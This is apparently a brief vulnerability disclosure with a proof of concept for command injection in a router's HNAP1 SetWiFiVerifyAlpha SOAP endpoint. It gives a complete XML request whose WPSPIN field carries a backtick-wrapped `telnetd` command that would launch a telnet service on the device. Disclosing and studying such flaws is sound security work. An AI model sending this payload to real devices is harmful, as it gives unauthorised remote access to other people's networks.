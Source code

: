![](wps.php.png)

A vulnerable `/HNAP1/SetWiFiVerifyAlpha` XML message could have shell metacharacters in the `WPSPIN` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetWiFiVerifyAlpha xmlns="http://purenetworks.com/HNAP1/" > <WPS>
<DEV_PIN>default</DEV_PIN>
<ResetToUnconfigured>default</ResetToUnconfigured>
<WPSPBC>default</WPSPBC>
<WPSPIN>`telnetd`</WPSPIN> </WPS>
</SetWiFiVerifyAlpha>
</soap:Body> </soap:Envelope>
```